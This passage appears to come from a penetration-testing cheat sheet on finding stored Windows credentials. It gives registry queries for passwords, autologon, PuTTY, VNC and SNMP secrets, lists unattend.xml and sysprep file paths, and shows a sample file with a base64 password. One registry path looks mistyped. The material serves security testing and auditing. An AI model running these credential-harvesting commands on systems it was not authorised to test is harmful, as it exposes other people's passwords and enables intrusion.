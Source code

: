 ```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Read a value of a certain sub key

```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

### Passwords in unattend.xml

Location of the unattend.xml files.

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Display the content of these files with
`dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`.

Example content

```powershell
<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
     <Enabled>true</Enabled>
     <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```
